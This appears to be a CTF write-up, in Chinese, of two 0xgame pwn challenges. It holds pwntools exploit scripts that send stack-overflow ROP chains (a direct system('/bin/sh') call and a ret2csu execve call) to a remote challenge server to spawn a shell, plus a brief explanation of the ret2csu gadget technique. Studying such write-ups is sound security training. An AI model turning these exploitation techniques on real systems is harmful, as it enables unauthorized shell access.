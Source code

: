 #### ***[Week 1] 5. where_is_my_binsh\***

很简单的栈溢出

```
from pwn import *
#io = process('./pwn3')
io = remote('47.97.58.52',40004)
elf = ELF('./pwn3')
sys_plt = elf.plt['system']
binsh_addr = 0x404090
pop_rdi_ret = 0x401323
io.send(b'/bin/sh\x00')
io.send(b'A'*24 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(0x40101a) + p64(sys_plt))
io.interactive()
```

#### ***[Week 1] 6. ret2csu\***

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-13-1024x548.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-14-1024x388.png)

题目中发现了execve的got表

ret2csu就是用loc_4013B6的gadget将需要的参数压入r12,r13,r14,r15

公式是：rbx=0, rbp=1, r12=args1, r13=args2, 

r14=args4, r15=execve.got, last = loc_4013A0

这样我们就可以通过loc_4013B6和loc_4013A0调用execve函数了

```
from pwn import *
#io = process('./pwn5')
io = remote('47.97.58.52',40005)
elf = ELF('./pwn5')
io.send(b'/bin/sh\x00')
payload = b'A'*14 + b'\x00'*2 + b'B'*8 + p64(0x4013BA) + p64(0) + p64(1) + p64(0x404090) + p64(0) + p64(0) + p64(0x404038) + p64(0x4013A0) + b'A'*56
#gdb.attach(io)
#pause()
io.send(payload)
io.interactive()
```

# 0xgame week2

难度上来一点点，确实遇到了棘手一点的题，主要是代码总是不知道为什么就报错，这也算我的一个痛点把

#### [Week 2] Shellcode-lv0

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-15-1024x632.png" alt="img" style="zoom:50%;" />
